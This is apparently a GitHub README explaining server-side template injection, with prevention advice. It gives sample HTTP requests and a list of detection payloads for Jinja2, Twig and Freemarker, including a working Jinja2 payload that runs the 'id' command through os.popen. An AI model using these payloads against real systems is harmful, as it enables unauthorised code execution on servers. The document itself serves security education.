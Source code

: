 # Description

**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

### How Does SSTI Vulnerability Occur?

SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

### Where to Put an SSTI Payload?

An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

### Examples of HTTP Requests with SSTI Payloads

Here are some examples of SSTI payloads used in various contexts:

#### 1. Basic SSTI in a Python Flask/Jinja2 Application

If an application uses Jinja2 and directly renders user input, a payload can be used to execute Python code.

**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
In this example, if the server-side code uses `name` in a Jinja2 template like this:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
The output rendered would be `49` instead of `{{7*7}}`.

#### 2. Exploiting SSTI to Execute Arbitrary Code

Advanced SSTI payloads can execute arbitrary server-side commands or code.

**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:
- This payload tries to access the `os` module and execute the `id` command, potentially revealing user and group information.

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
If the `message` parameter is rendered directly in a Jinja2 template, it could execute the `id` command on the server.

#### 3. SSTI in a PHP Application Using Twig

For Twig template engines, SSTI payloads can be used to achieve code execution if the application does not filter user input.

**Malicious Payload (`{{7*7}}`)**:
- Like in Jinja2, this payload would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
If the application uses:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```
It could render `49` on the profile page.

#### 4. Java Application Using Freemarker

In Freemarker, SSTI can occur if input is evaluated as part of the template rendering.

**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```
If the application uses the input in the template:
```java
template.process(dataModel, out);
```
It could output `49` instead of `${7*7}`.

### Preventing SSTI Vulnerabilities

To protect against SSTI:
1. **Do Not Trust User Input**: Avoid rendering user-supplied data directly in templates.
2. **Use Context-Aware Escaping**: Properly escape user input in templates.
3. **Disable Dangerous Template Engine Features**: Limit the capabilities of the template engine (e.g., disable code execution).
4. **Use Template Sandboxing**: Restrict the scope of what templates can do by using features like Jinja2's `SandboxedEnvironment`.

SSTI vulnerabilities can lead to severe consequences, such as remote code execution or unauthorized access to sensitive data, making secure template handling crucial for web applications.

# SSTI Payloads
___
## For Detection
```html
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
